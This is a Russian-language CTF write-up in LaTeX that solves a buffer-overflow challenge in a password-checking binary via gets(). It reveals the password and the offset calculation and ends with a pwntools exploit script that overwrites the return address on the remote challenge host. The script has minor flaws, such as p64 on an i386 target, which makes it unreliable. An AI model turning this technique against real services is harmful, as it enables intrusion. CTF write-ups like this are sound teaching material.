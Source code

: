 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
\begin{tcolorbox}
Я написал программу, чтобы отслеживать состояние своего сервера. Но не уверен, что она так уж безопасна. Поможете проверить?

nc ctf-edu-t.orb.ru 31488
\end{tcolorbox}

Нам дается простенький бинарь, спрашивающий пароль. При декомпиляции первое, на что падает взгляд - использование функции \verb|gets()|. От этого буквально несет переполнением буфера. Остается понять, насколько его переполнять. Если взглянуть на пролог функции \verb|remote_system_health_check()|, то становится понятно, что содержимое стека в данном случае выглядит как \verb|ebp + buffer|. Размер буфера тоже виден ниже и равен $0x108$, что в более привычной для нас десятичной системе счисления равняется $264$. Таким образом, пайлоад будет выглядеть как: \verb|password + \x00 + padding + RA|. То есть требуемый пароль, нулевой байт для того, чтобы функция \verb|strcmp()| "правильно" сравнила строки, после чего забивание буфера и \verb|ebp| и перезапись адреса возврата. Остается понять, сколько же нужно забивать. Так как наш пароль выглядит как \verb|sUp3r_S3cr3T_P4s5w0rD| и его длина равна $21$, то из $264$ байт у нас остается $242$ (не забываем про нулевой байт в конце строки). Отлично, буфер забит. Нужно добавить еще $4$ байта для того, чтобы дойти до адреса возврата сквозь \verb|ebp|. И не стоит забывать, что функция \verb|gets()| автоматически добавляет в конец нулевой байт - то есть из получившихся $246$ нужно вычесть $1$ и получить $245$ - длину нашего смещения. Ну и еще стоит вспомнить, что адреса хранятся в little-endian. Таким образом, сплойт будет выглядеть следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='i386')

BINARY = './system_health_checker'
REMOTE = True


def exploit():
    if REMOTE:
        r = remote('ctf-edu-t.orb.ru', 31488)
    else:
        r = process(BINARY)

	r.recvline()

    padding = "A" * 245
    RA = p64(0x0804928c)

    r.sendline("sUp3r_S3cr3T_P4s5w0rD\x00" + padding + RA)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}
\end{document}
